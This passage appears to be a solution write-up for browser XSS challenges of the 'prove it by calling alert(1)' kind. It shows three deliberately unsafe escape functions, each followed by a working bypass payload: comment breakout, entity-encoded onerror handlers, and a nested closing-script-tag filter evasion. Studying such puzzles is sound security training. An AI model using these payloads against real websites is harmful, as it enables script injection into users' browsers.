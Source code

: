 ```
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```

- Solution

```
Comment#--><img src onerror=alert(1)
```

- HTML source

```
<!----><img src onerror=alert(1)-->
```

## Skandia

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

## JSON2

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```
